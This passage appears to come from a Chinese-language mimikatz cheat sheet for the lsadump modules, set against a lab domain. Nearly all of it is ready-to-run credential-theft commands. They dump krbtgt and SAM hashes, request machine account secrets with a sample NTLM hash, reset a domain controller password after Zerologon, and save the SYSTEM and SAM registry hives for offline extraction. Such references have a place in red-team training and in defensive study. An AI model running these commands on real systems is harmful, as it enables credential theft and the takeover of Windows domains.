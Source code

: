```

## netsync

请求目标计算机的rc4秘钥，需要dc主机的哈希
```
mimikatz # lsadump::netsync /dc:dc.hacklab.local /user:dc$ /ntlm:5b7ba7b6131a4aab1bbd60ba1a810e53 /account:win7$
```

## lsa

从内存中提取哈希值

```
mimikatz # lsadump::lsa /inject /name:krbtgt
```

> /inject : when run on a workstation, it will dump the LM and NT password hashes. When run on domain controller is will dump LM, NT, Wdigest, Kerberos keys and password history.


## packages
列出可用的windows身份验证机制

```
mimikatz # lsadump::packages
```

## postzerologon

> lsadump::postzerologon is a procedure to update AD domain password and its local stored password remotely mimic netdom resetpwd. Experimental and best situation after reboot

```
mimikatz # lsadump::postzerologon /target:192.168.0.10 /account:dc$
```

## rpdata

检索私人数据

```
mimikatz # lsadump::RpData
```

## sam

转储本地安全账户管理器（SAM）NT的哈希值

```
mimikatz # lsadump::sam
```

**离线转存**

cmd下
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
```

执行离线转存
```
mimikatz # lsadump::sam /system:system.hive /sam:sam.hive
```

```